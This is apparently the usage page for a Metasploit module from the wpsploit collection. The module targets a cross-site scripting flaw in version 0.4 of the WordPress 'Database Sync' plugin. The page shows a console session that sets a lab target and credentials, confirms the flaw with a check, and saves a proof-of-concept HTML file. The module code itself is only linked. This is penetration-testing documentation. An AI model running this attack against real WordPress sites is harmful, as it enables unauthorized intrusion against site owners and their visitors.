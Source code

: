 #### Add WordPress Plugin Database Sync XSS Vulnerability.

  Application: WordPress Plugin 'Database Sync' 0.4
  Homepage: https://wordpress.org/plugins/database-sync
  Source Code: https://downloads.wordpress.org/plugin/database-sync.0.4.zip
  References: https://wpvulndb.com/vulnerabilities/8127
  Active Install: +1.000

#### Vulnerable packages*
        
  0.4

#### Module

  [wp_database_sync_xss_scanner.rb](https://github.com/espreto/wpsploit/blob/master/modules/auxiliary/scanner/http/wordpress/wp_database_sync_xss_scanner.rb)
  
#### Usage:

##### Linux (Ubuntu 14.04.2 LTS):
```
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf>  use auxiliary/scanner/http/wp_database_sync_xss_scanner 
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  show options 

Module options (auxiliary/scanner/http/wp_database_sync_xss_scanner):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads
   VHOST                       no        HTTP server virtual host
   WP_PASS                     no        A valid password
   WP_USER                     no        A valid username

msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  info

       Name: WordPress Database Sync XSS Scanner
     Module: auxiliary/scanner/http/wp_database_sync_xss_scanner
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2015-08-04

Provided by:
  Morten Nørtoft, Kenneth Jepsen & Mikkel Vej
  Roberto Soares Espreto <robertoespreto@gmail.com>

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target address range or CIDR identifier
  RPORT      80               yes       The target port
  TARGETURI  /                yes       The base path to the wordpress application
  THREADS    1                yes       The number of concurrent threads
  VHOST                       no        HTTP server virtual host
  WP_PASS                     no        A valid password
  WP_USER                     no        A valid username

Description:
  This module attempts to exploit an Cross-Site Scripting in Database 
  Sync Plugin for Wordpress, version 0.4 and likely prior in order if 
  the instance is vulnerable.

References:
  https://wpvulndb.com/vulnerabilities/8127
  https://packetstormsecurity.com/files/132907/

msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  set RHOSTS 10.10.10.20
RHOSTS => 10.10.10.20
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  set WP_USER espreto
WP_USER => espreto
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  set WP_PASS R@x0rP@55
WP_PASS => R@x0rP@55
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  check
[*] 10.10.10.20:80 - The target appears to be vulnerable.
[*] Checked 1 of 1 hosts (100% complete)
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  run

[+] 10.10.10.20:80 - Vulnerable to Cross-Site Scripting the Database Sync 0.4 plugin for Wordpress
[+] Save in: /home/espreto/.msf4/local/script.html
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner) firefox /home/espreto/.msf4/local/script.html
```
This will open the browser:

![XSS](../images/wp_database_sync_xss_scanner.png)
